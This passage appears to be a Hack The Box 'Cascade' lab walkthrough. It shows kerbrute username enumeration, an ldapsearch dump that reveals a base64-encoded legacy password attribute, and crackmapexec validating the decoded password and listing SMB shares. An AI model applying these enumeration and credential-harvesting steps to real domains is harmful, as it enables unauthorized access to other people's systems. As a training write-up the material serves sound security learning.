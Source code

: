 Since Kerberos is enabled on the domain, we can try to check if the users we got in LDAP matches any users in the AD. To do that, we'll use `kerbrute`
```
~/HTB/Cascade
❯ /home/kali/kerbrute_linux_amd64 userenum --dc 10.10.10.182 --domain cascade.local ldap_users 

   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/16/23 - Ronnie Flathers @ropnop

2023/03/16 13:19:56 >  Using KDC(s):
2023/03/16 13:19:56 >  	10.10.10.182:88

2023/03/16 13:20:01 >  [+] VALID USERNAME:	 d.burman@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 j.wakefield@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 BackupSvc@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 a.turnbull@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 j.goodhand@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 s.hickson@cascade.local
2023/03/16 13:20:01 >  [+] VALID USERNAME:	 j.allen@cascade.local
2023/03/16 13:20:06 >  [+] VALID USERNAME:	 util@cascade.local
2023/03/16 13:20:06 >  [+] VALID USERNAME:	 arksvc@cascade.local
2023/03/16 13:20:06 >  [+] VALID USERNAME:	 s.smith@cascade.local
2023/03/16 13:20:06 >  [+] VALID USERNAME:	 r.thompson@cascade.local
```
 
Looking for more infos in the user inside LDAP
```
~/HTB/Cascade
❯ ldapsearch -x -H ldap://10.10.10.182 -b 'DC=cascade,DC=local' -s sub '(objectclass=user)'
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
...
cascadeLegacyPwd: clk0bjVldmE=
...
```

An additional attribute was added to the Ryan Thompson user data inside the LDAP server, upon decoding the `cascadeLegacyPwd` we find the password of r.thompson. We can confirm that by trying to use it wit crackmapexec
```
~/HTB/Cascade
❯ cme smb cascade.local -u r.thompson -p 'rY4n5eva' --shares
SMB         cascade.local   445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         cascade.local   445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         cascade.local   445    CASC-DC1         [+] Enumerated shares
SMB         cascade.local   445    CASC-DC1         Share           Permissions     Remark
SMB         cascade.local   445    CASC-DC1         -----           -----------     ------
SMB         cascade.local   445    CASC-DC1         ADMIN$                          Remote Admin
SMB         cascade.local   445    CASC-DC1         Audit$                          
SMB         cascade.local   445    CASC-DC1         C$                              Default share
SMB         cascade.local   445    CASC-DC1         Data            READ            
SMB         cascade.local   445    CASC-DC1         IPC$                            Remote IPC
SMB         cascade.local   445    CASC-DC1         NETLOGON        READ            Logon server share 
```
